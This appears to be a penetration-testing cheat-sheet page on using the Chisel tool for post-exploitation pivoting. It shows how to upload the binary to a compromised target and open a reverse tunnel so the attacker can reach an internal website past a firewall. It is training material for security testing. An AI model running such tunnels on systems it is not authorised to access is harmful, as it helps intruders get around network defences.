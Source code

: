 # Chisel

<div class="row row-cols-lg-2"><div>

[Chisel](https://github.com/jpillora/chisel) <small>(12.0k ⭐)</small> is a post-exploitation tool that can be used to remotely access a website using TCP. This can be useful to access website from your browser will a firewall is blocking connections.

On Kali, you can install it using:

```shell!
$ sudo apt install chisel
```

On the remote target server, you need to get `chisel`

* Use `lscpu` to find which binary is appropriate
* Download the appropriate binary [here](https://github.com/jpillora/chisel/releases/)
* Unzip (`gunzip xxx.gz`) and upload it on the target
</div><div>

**Example: From Kali - Access A Remote Internal Website** 

On Kali, the host, listen for clients:

```shell!
$ chisel server -p cport --reverse
Listening at <chost_ip:cport>
```

On the target, assuming the website is running at `localhost:80`, and we want to access it using `localhost:8080` on Kali, we would use:

```ps
$ ./chisel client chost_ip:cport R:8080:localhost:80
```

If the website is running on another machine such as `xxx.local:8000`, we can simply replace `localhost` with an IP or a Domain Name:

```ps
$ ./chisel client chost_ip:cport R:8080:xxx.local:8000
```

📚 On your Kali machine, you will have to add an entry in your host file: `127.0.0.1 xxx.local`, and use `http://xxx.local:8080`.

⚠️ Remember that you need to use the actual host IP in shells.
</div></div>